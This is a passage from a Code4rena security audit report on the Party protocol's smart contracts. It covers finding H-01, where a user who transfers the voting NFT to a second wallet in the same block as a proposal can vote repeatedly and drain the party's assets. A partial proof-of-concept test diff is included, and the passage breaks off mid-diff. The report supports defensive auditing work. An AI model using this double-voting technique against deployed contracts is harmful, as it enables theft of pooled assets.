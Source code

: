[](#high-risk-findings-7)High Risk Findings (7)
===============================================

[](#h-01-partygovernance-can-vote-multiple-times-by-transferring-nft-in-same-block-as-proposal)[\[H-01\] PartyGovernance: Can vote multiple times by transferring NFT in same block as proposal](https://github.com/code-423n4/2022-09-party-findings/issues/113)
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by Lambda, also found by Trust_

`PartyGovernanceNFT` uses the voting power at the time of proposal when calling `accept`. The problem with that is that a user can vote, transfer the NFT (and the voting power) to a different wallet, and then vote from this second wallet again during the same block that the proposal was created. This can also be repeated multiple times to get an arbitrarily high voting power and pass every proposal unanimously.

The consequences of this are very severe. Any user (no matter how small his voting power is) can propose and pass arbitrary proposals animously and therefore steal all assets (including the precious tokens) out of the party.

### [](#proof-of-concept)Proof Of Concept

This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:

    --- a/sol-tests/party/PartyGovernanceUnit.t.sol
    +++ b/sol-tests/party/PartyGovernanceUnit.t.sol
    @@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
             TestablePartyGovernance gov =
                 _createGovernance(100e18, preciousTokens, preciousTokenIds);
             address undelegatedVoter = _randomAddress();
    +        address recipient = _randomAddress();
             // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
             gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));
     
    @@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
             // Undelegated voter submits proposal.
             vm.prank(undelegatedVoter);
             assertEq(gov.propose(proposal, 0), proposalId);
    -
    -        // Try to execute proposal (fail).
    -        vm.expectRevert(abi.encodeWithSelector(
    -            PartyGovernance.BadProposalStatusError.selector,
    -            PartyGovernance.ProposalStatus.Voting
    -        ));
    -        vm.prank(undelegatedVoter);
    -        gov.execute(
    -            proposalId,
    -            proposal,
    -            preciousTokens,
    -            preciousTokenIds,
    -            "",
    -            ""
    -        );
    -
    -        // Skip past execution delay.
    -        skip(defaultGovernanceOpts.executionDelay);
    -        // Try again (fail).
    -        vm.expectRevert(abi.encodeWithSelector(
    -            PartyGovernance.BadProposalStatusError.selector,
    -            PartyGovernance.ProposalStatus.Voting
    -        ));
    -        vm.prank(undelegatedVoter);
    -        gov.execute(
    -            proposalId,
    -            proposal,